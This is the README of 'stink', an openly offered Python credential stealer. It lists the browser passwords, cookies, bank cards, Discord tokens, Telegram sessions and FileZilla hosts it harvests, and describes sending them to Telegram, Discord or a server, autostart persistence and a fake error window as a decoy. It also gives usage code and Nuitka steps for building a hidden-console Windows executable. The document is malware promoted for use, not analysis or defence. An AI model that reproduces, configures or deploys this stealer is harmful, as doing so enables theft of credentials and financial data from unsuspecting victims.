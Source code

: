 # stink

Stealer in just a few lines with sending to Telegram / Server / Discord.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Description
The `stink` already has an impressive functionality that will only expand.

## Navigation
* [Current features](#Сurrent-features)
* [Example usage](#Example-usage)
  * [Standard](#Standard)
  * [Certain modules](#Certain-modules)
  * [Additional parameters](#Additional-parameters)
* [Creating exe](#Creating-exe)
  * [Creating executable file](#Creating-executable-file)
  * [With BAT](#With-BAT)
  * [With CMD](#With-CMD)

### Current features
1. Support for the following browsers:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
2. Collecting the following data:
   - Screenshot
   - Cookies
   - Passwords
   - Bank cards
   - History
   - Bookmarks
   - IP-address
   - System configuration
   - Active processes
   - Discord tokens
   - Telegram sessions
   - FileZilla hosts
3. Support for browser multiprofiles.
4. Sending an archive of collected data to Telegram / Server / Discord.
5. Execution in a separate thread.
6. Execution using multiprocessor.
7. Possibility to add to autostart.
8. Showing a window with a fake error.

## Example usage
### Standard
```python
from stink import Stealer
from stink.enums import Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Certain modules

An example with only system data collection and screenshot.
```python
from stink import Stealer
from stink.enums import Features, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)], features=[Features.system, Features.screenshot]).run()
```
### Additional parameters

- `features` - enables modules from the list. Modules can be imported from `stink.enums.Features`. Available modules:

  - `passwords` - collecting passwords.

  - `cookies` - collecting cookies.

  - `cards` - collecting of bank cards.

  - `history` - collecting search history.

  - `bookmarks` - collecting bookmarks.

  - `processes` - collecting of active processes.

  - `system` - collecting system configuration.

  - `screen` - screenshot.

  - `discord` - collecting Discord tokens.

  - `telegram` - collecting Telegram sessions.

  - `filezilla` - collecting FileZilla hosts.


- `utils` - enables the utilities from the list. Utilities can be imported from `stink.enums.Utils`. Available utilities:

  - `errors` - error output.

  - `autostart` - adding to autostart.

  - `message` - showing a fake error window.


- `senders` - launches sending methods from the list. Sending methods can be imported from `stink.enums.Senders`. Available sending methods:

  - `server` - Send to server.

  - `telegram` - sending to Telegram.

  - `discord` - sending to Discord.
  
## Creating exe
Python is an interpreted programming language, so we first translate it into C and then compile it into an .exe file.
We will need Nuitka to do this.

### Creating executable file

1. [Download](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) archive.
2. Unpack the archive and go to the directory stink-master.
3. Create test.py (or any other name) file in the same directory with the following code:
```python
from stink import Stealer
from stink.enums import Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

#### With BAT
1. Run compiler.bat.


#### With CMD
1. Open `cmd`.
2. Type in the command:
```
pip install virtualenv
```
3. Go to the folder with the `test.py` file:
```
cd path\to\file
```
4. Create a virtual environment and activate it:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Install the requirements:
```
pip install -r requirements.txt
```
6. Install the Nuitka:
```
pip install Nuitka==0.6.16.4
```
7. To reduce the file size, additionally install Zstandard (optional):
```
pip install zstandard==0.17.0
```
8. Write the command:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

After executing the command we get the test.exe file with the hidden console.
